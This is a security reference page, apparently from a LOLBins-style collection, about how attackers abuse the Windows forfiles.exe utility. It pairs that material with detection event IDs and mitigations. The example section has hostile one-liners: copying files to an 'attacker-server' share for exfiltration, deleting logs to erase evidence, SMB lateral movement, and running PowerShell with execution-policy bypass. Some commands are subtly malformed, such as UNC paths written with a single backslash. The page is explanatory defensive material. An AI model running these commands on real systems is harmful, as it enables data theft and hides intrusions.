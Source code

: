 # forfiles.exe
## What is it?
*```forfiles.exe``` is a built-in Windows command-line utility used for selecting files and executing commands on them based on specific criteria such as date, size, or name pattern.*
*It is often used in batch files and scripts to automate file management tasks such as archiving, deleting, or processing files in a specified directory.*

## Legitimate Usage
- **File Management Automation** → Automate tasks like file cleanup, archiving, or copying.
- **Scheduled File Operations** → Combine with Task Scheduler to perform periodic operations on files (e.g., delete old files).
- **System Maintenance** → Delete old logs, backup files, or temporary files after a certain period.
- **Batch File Processing** → Execute commands on groups of files with specific patterns or properties.

## How to abuse it
- **Persistence** → Attackers can use ```forfiles.exe``` to schedule malicious scripts or programs to run at regular intervals.
- **Automated Exfiltration** → Attackers can automate the copying or deletion of sensitive files at scheduled times.
- **Bypassing Security Controls** → Use trusted Windows binaries to perform unauthorized actions without triggering security alerts.
- **Privilege Escalation** → Attackers can leverage ```forfiles.exe``` to execute malicious scripts that elevate privileges via scheduled tasks or specific file conditions.

## Example attacks
### 1. Persistence via Scheduled Task
*Attackers can use ```forfiles.exe``` to schedule the execution of a malicious script or payload.*

**Schedule Malicious Payload Execution**

```
forfiles /p C:\ /s /m *.exe /d +0 /c "cmd /c C:\path\to\malicious_payload.exe"
```

**Effect:**
- ```forfiles.exe``` runs a command (in this case, executing a malicious payload) on files that meet the specified criteria (e.g., all `.exe` files).
- The command can be scheduled to run periodically, ensuring persistence.

### 2. Exfiltration of Files via Scheduled Task
*Attackers can automate the copying of sensitive files to an external location for exfiltration.*

**Automate File Exfiltration**

```
forfiles /p C:\SensitiveData /s /m *.txt /c "cmd /c copy @file \attacker-server\exfil"
```

**Effect:**
- Automatically copies all `.txt` files from the target directory to a remote share controlled by the attacker.

### 3. File Deletion for Evidence Erasure
*```forfiles.exe``` can be used to schedule the deletion of sensitive files or logs to cover tracks.*

**Automate File Deletion**

```
forfiles /p C:\Windows\Temp /s /m *.log /c "cmd /c del @file"
```

**Effect:**
- Deletes all `.log` files in the `C:\Windows\Temp` directory, which may contain evidence of an attack.

### 4. Bypassing AppLocker and SRP via Scheduled Execution
*```forfiles.exe``` can be used to bypass AppLocker or Software Restriction Policies (SRP) by running executables in trusted directories.*

**Run Executable in Trusted Directory**

```
forfiles /p C:\Windows\System32 /s /m *.exe /c "cmd /c C:\Windows\System32\trusted_payload.exe"
```

**Effect:**
- Executes a payload from a whitelisted directory, bypassing security restrictions on unauthorized file execution.

### 5. Automating Lateral Movement
*Use ```forfiles.exe``` to move files to other systems or directories as part of a lateral movement attack.*

**Automate Lateral Movement via SMB**

```
forfiles /p C:\Users\ /s /m *.exe /c "cmd /c copy @file \192.168.1.50\C$\Windows\Temp"
```

**Effect:**
- Copies malicious executables from one machine to another via SMB, enabling lateral movement across the network.

### 6. Scheduled Execution of Malicious PowerShell Scripts
*```forfiles.exe``` can be used to automate the execution of malicious PowerShell scripts.*

**Run PowerShell Script via Forfiles**

```
forfiles /p C:\ /s /m *.ps1 /c "cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\path\to\malicious_script.ps1"
```

**Effect:**
- Executes a PowerShell script on targeted systems, bypassing execution policy restrictions.

# Detection & Mitigation
## Detection Methods
**Monitor Scheduled Task Creation**
- **Event ID 4698 (Scheduled Task Created)** → Detect the creation of scheduled tasks that execute unusual commands, such as the use of ```forfiles.exe``` with suspicious arguments.
- **Look for Suspicious Command-Line Arguments** → Watch for ```forfiles.exe``` running commands that are not typically used for file management.

**Monitor File Deletions and Modifications**
- **Event ID 4663 (File Accessed)** → Track file deletions or modifications in directories commonly targeted for evidence erasure, such as `C:\Windows\Temp` or user profile directories.
- **Look for High Volume of File Operations** → Multiple file manipulations in a short period could indicate abuse of ```forfiles.exe``` for exfiltration or cleanup.

**Monitor Network Shares**
- **Event ID 5140 (File Share Access)** → Detect unusual file access over SMB, such as large volumes of files being copied to remote locations.

## Mitigation Strategies
- **Use Application Whitelisting** → Prevent the execution of unauthorized scripts and executables, particularly via tools like AppLocker or WDAC.
- **Monitor Scheduled Task Creation** → Set up alerts for any new scheduled task that executes commands involving ```forfiles.exe``` or other tools typically used in lateral movement or persistence.
- **Restrict File Access** → Limit write permissions for sensitive directories and files to trusted administrators only.
- **Control Network Access** → Restrict SMB and other remote access protocols to known and trusted IP addresses to prevent data exfiltration over the network.
- **File Integrity Monitoring** → Implement file integrity monitoring to detect unauthorized file changes or deletions, particularly in critical system directories.
